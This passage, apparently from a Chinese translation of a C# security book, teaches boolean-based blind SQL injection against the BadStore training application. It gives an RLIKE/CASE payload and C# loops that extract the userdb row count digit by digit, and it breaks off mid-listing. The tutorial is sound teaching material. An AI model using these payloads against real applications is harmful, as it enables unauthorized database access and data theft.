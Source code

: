 通过向 Web 应用程序提出真假问题（这个等于那个吗？），我们可以确定它的行为，然后根据该行为来判断我们的问题的答案是真还是假。

使用 RLIKE 关键字来匹配搜索条件

清单 2-42 中的负载（针对 searchquery 参数）应该返回正确的响应（一个错误），因为 userdb 表中行数的长度大于 1。

> searchquery=fdsa'+RLIKE+(SELECT+(CASE+WHEN+((SELECT+LENGTH(IFNULL(CAST(COUNT(*)
> 
> +AS+CHAR),0x20))+FROM+userdb)=1➊)+THEN+0x41+ELSE+0x28+END))+AND+'

清单 2-42：用于 searchquery 参数的布尔型 SQL 注入负载示例

使用 RLIKE 和 CASE 语句，我们检查 BadStore 的 userdb 表的行数是否等于 1。COUNT(*)语句返回一个整数，即表中的行数。我们可以利用这个数字显著减少完成攻击所需的请求次数。

如果我们修改负载，以确定行数的长度是否等于 2 而不是 1 ➊，服务器应该返回一个包含错误的响应，错误信息为“括号不平衡”。例如，假设 BadStore 在 userdb 表中有 999 个用户。虽然你可能会认为我们需要发送至少 1,000 个请求来确定 COUNT(*)返回的数字是否大于 999，但我们可以比起对整个数字（999）进行暴力破解，更快地破解每一个单独的数字（每个 9）。数字 999 的长度是三，因为 999 是由三个字符组成的。如果，我们不是暴力破解整个数字 999，而是分别暴力破解第一个、第二个和第三个数字，我们将在 30 个请求内暴力破解整个数字 999——每个数字最多 10 个请求。

确定并打印 userdb 表中的行数

为了更清楚地说明这一点，我们编写一个 Main()方法来确定 userdb 表中包含多少行。通过列表 2-43 中的 for 循环，我们确定 userdb 表中行数的长度。

> int countLength = 1;
> 
> for (;;countLength++)
> 
> {
> 
> string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
> 
> getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR),0x20)) FROM";
> 
> getCountLength += " userdb)="+countLength+") THEN 0x28 ELSE 0x41 END))";
> 
> getCountLength += " AND 'LeSo'='LeSo";
> 
> string response = MakeRequest(getCountLength);
> 
> 如果(response.Contains("parentheses not balanced"))
> 
> break;
> 
> }

列表 2-43: 用于检索用户数据库中行数的 for 循环

我们从 countLength 为零开始，然后每次通过循环时，countLength 增加 1，检查请求的响应是否包含正确的字符串“括号不平衡”。如果包含，我们就退出 for 循环，得到正确的 countLength，应该是 23。

然后，我们向服务器请求 userdb 表中包含的行数，如列表 2-44 所示。

> List<byte> countBytes = new List<byte>();
> 
> for (int i = 1; i <= countLength; i++)
> 
> {
> 
> for (int c = 48; c <= 58; c++)
> 
> {
> 
> string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (➊ORD(➋MID((SELECT";
> 
> getCount += " IFNULL(CAST(COUNT(*) AS CHAR), 0x20) FROM userdb)➌,";
> 
> getCount += i➍+ ", 1➎))="+c➏+") THEN 0x28 ELSE 0x41 END)) AND '";
> 